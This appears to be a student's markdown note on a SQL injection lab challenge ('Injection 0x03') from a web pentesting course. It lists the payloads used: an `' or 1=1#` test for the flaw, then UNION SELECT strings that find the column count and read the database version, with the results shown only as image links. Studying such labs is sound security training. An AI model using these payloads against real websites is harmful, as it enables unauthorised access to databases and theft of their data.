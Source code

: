 
#tcm-pwpa-SQLi-challenge
[[1. Introduction to SQL Injection]]
[[1. SQLMAP]]
[[1. SQLi]]

## Injection 0x03 [Challenge]

### Check if the page has SQLi vuln  : 

`x' or 1=1#`

- if *yes* then it will return all the record and render it on the page.

![[Pasted image 20250805201957.png]]

![[Pasted image 20250805202040.png]]

### Data Exfiltration using `UNION` : 

1. Checking.

	- Command used : `Tanjyoubi Sushi Rack' union select null,null,null,null#`

	- Output : 

		![[Pasted image 20250805202958.png]]

2. Database Version : 

	- Command Used : `Tanjyoubi Sushi Rack' union select null,null,null,version()#`

	- Output : 

		![[Pasted image 20250805203236.png]]


